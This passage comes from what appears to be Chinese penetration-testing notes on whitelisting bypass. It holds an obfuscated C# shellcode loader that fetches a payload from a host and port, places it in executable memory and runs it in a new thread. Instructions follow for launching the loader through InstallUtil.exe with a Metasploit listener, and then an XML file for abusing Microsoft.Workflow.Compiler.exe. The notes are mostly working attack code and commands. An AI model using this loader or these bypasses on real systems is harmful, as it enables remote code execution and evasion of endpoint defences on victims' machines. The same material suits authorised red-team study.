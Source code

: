	return qaYyFq;}
	static void cmMtjerv(byte[] HEHUjJhkrNS) {
	if(HEHUjJhkrNS !=null) {
	UInt32 WcpKfU = VirtualAlloc(0,(UInt32)HEHUjJhkrNS.Length,0x1000,0x40);
	Marshal.Copy(HEHUjJhkrNS,0,(IntPtr)(WcpKfU), HEHUjJhkrNS.Length);
	IntPtr UhxtIFnlOQatrk = IntPtr.Zero;
	UInt32 wdjYKFDCCf =0;
	IntPtr XVYcQxpp = IntPtr.Zero;
	UhxtIFnlOQatrk = CreateThread(0,0, WcpKfU, XVYcQxpp,0, ref wdjYKFDCCf);
	WaitForSingleObject(UhxtIFnlOQatrk,0xFFFFFFFF); }}
	public static void LCIUtRN() {
	byte[] IBtCWU =null; IBtCWU = ErlgHH("192.168.0.107",12138);
	cmMtjerv(IBtCWU);
	} }
	生成exe后执行
	>C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Users\y\Desktop\y.exe
	MSF监听12138端口
 #### Compiler.exe
	>C:\Windows\Microsoft.NET\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe 1.xml 1.tcp
![image](/assets/Pentest_Note/master/img/129.png)
 ##### 1.xml
	<?xml version="1.0" encoding="utf-8"?>
	<CompilerInput xmlns:i="http://www.w3.org/2001/XMLSchema-instance" xmlns="http://schemas.datacontract.org/2004/07/Microsoft.Workflow.Compiler">
	<files xmlns:d2p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays">
	<d2p1:string>1.tcp</d2p1:string>
	</files>
	<parameters xmlns:d2p1="http://schemas.datacontract.org/2004/07/System.Workflow.ComponentModel.Compiler">
	<assemblyNames xmlns:d3p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler"/>
	<compilerOptions i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler"/>
	<coreAssemblyFileName xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler"></coreAssemblyFileName>
	<embeddedResources xmlns:d3p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler"/>
	<evidence xmlns:d3p1="http://schemas.datacontract.org/2004/07/System.Security.Policy" i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler"/>
	<generateExecutable xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">false</generateExecutable>
	<generateInMemory xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">true</generateInMemory>
	<includeDebugInformation xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">false</includeDebugInformation>
	<linkedResources xmlns:d3p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler"/>
	<mainClass i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler"/>
	<outputName xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler"></outputName>
	<tempFiles i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler"/>
	<treatWarningsAsErrors xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">false</treatWarningsAsErrors>
	<warningLevel xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">-1</warningLevel>
	<win32Resource i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler"/>
	<d2p1:checkTypes>false</d2p1:checkTypes>
	<d2p1:compileWithNoCode>false</d2p1:compileWithNoCode>
	<d2p1:compilerOptions i:nil="true" />
	<d2p1:generateCCU>false</d2p1:generateCCU>
	<d2p1:languageToUse>CSharp</d2p1:languageToUse>